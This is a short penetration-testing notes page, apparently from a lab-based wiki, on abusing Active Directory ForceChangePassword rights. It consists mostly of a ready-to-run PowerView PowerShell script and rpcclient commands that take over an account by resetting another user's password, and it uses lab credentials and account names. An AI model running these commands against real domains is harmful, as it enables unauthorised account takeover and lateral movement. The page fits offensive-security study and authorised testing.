

---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---

# ForceChangePassword

## Exploitation

<figure><figcaption><p>Figure 1: User wley has ForceChangePassword rights over user damundsen.</p></figcaption></figure>


```powershell
# creating a PSCredential Object for the currently owned user
$SecPassword = ConvertTo-SecureString 'transporter@4' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword)
 
# set the password we want for the target user by creating a SecureString Object
$damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
 
# change the user's password
Import-Module .\PowerView.ps1
Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
```


This can also be done using RPC:

```bash
rpcclient -U <USER> <IP>
> setuserinfo2 <USER> 23 'ComplexP4ssw0rd!'
# OR
> chgpasswd3 <USER> <OLDPASS> <NEWPASS>
```

## Resources






